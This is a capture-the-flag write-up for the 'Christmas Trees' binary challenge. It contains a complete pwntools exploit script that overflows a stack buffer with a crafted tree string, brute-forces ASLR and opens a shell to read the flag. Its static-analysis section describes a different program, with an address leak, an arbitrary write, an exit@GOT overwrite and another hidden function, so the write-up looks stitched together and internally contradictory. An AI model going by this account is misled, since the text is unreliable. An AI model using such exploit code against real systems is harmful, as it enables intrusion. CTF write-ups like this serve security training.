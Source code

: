 # Christmas Trees - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ChristmasTrees.gif)

---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file christmas_tree.bin
```

![Alt text](img/2.png)

```bash
$ checksec christmas_tree.bin
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

![Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

![Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

![Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

![Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
	io = start()


	io.recvuntil(b'Welcome! What would you like to do? : ')
	io.sendline(b"display")
	io.recvuntil(b'Please enter your encoded christmas tree : ')
	io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
	for i in range(3) :
		io.recvline()

	try:
		io.sendline(b"cat flag.txt")
		flag = io.recvline().strip()
		#log.success(f"FLAG : {flag.decode()}")
		log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

		break

	except:
		io.close()


```

---

## Exploit Output

![Alt text](img/8.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
